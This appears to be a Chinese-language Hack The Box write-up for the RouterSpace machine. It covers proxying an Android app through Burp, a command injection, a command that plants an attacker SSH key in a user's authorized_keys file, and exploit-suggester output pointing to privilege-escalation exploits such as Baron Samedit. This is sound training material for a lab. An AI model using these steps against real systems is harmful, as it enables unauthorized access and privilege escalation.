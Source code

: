 [https://app.hackthebox.com/machines/444](https://app.hackthebox.com/machines/444)

nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271333286.png)

---

可以下载一个`RouterSpace.apk`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271338863.png)

>配置anbox代理

1. burpsuite的监听设置为监听全部端口

2. `adb shell settings put global http_proxy 192.168.250.1:8080`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271341316.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271342993.png)

---

将`10.10.11.148    routerspace.htb`添加到`/etc/hosts`中

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271345185.png)

存在命令注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271350787.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271350885.png)

`echo 'ssh-rsa AAAxxxWpa2NE297s= kali@kali' > /home/paul/.ssh/authorized_keys`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271401468.png)

---

```
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
```

`CVE-2021-4034`不行,`CVE-2021-3156`可以

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203271415875.png)